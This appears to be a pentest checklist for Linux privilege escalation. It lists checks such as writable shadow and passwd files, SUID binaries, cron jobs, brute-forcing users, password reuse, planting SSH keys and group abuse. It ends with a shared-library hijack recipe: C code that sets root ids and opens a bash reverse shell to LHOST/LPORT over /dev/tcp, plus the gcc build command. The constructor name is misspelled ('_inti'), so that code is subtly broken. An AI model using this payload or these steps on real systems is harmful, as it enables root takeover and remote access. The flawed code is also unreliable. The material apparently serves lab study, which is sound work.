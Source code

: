 # Linux Privilege Escallation

- [ ] Writable `/etc/shadow`
- [ ] Writable `/etc/passwd`
- [ ] Check user's history
- [ ] Check user's `env`
- [ ] Check user's `.bashrc`
- [ ] SUID Bit
- [ ] `sudo -l`
- [ ] Cron Job
  - [ ] There may be missing library for binary file we can write create and write it [HINT](https://www.youtube.com/watch?v=LlzpyGcA-ak&ab_channel=Tech69)
- [ ] Get the usernames from `/home` start brute force for the users
- [ ] If you come from web check `config.php`
- [ ] Look for services like `mysql`
- [ ] Look for internal ports
- [ ] Password Reuse (get password from different resources like db, config files and reuse them)
- [ ] Username and the password the same like `patrick:patrick`
- [ ] Create a key pair using `ssh-keygen` command and then change `id_rsa.pub` file to `authorized_keys` and add this file
- [ ] Check group of the user:
  - [ ] if it is `fail2ban` group [fail2ban PrivEsc](https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7) (PG-Practice Fail)
  - [ ] if it is `filter` group [filter PrivEsc](https://viperone.gitbook.io/pentest-everything/writeups/pg-practice/linux/postfish)
    - [ ] `find / -group filter 2>/dev/null`
  - [ ] if it is `docker` group [docker PrivSec](https://viperone.gitbook.io/pentest-everything/writeups/pg-practice/linux/peppo)
- [ ] Service **`find /etc -type f -writable 2> /dev/null`** https://al1z4deh.medium.com/proving-grounds-hetemit-8469d0a3f189


## Restricted Bash (RBASH)
- [ ] Check available commands `echo $PATH`
- [ ] 

## Interesting Group
```
find / -group filter 2>/dev/null
```

## Binary Missing Component
1. You find a binary file that may be run by root user (SUID or SUDO or CronJob)
2. Try to run it
3. If it gives missing like "cannot open shared object file"
4. Check path `LD_LIBRARY_PATH` in `/etc/crontab` for example.
5. Find writable directory
```
find / -type d -writable 2>/dev/null
```
6. Match writable directories with PATH
7. Write a malicious .c file
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _inti() {
  setgid(0);
  setuid(0);
  system("bash -i >& /dev/tcp/LHOST/LPORT 0>&1");
}
```
8. Compile it
```
gcc -shared -fPIC -nostartfiles exploit.c -o exploit.so
```
9. Put it to the target place
10. Run the binary
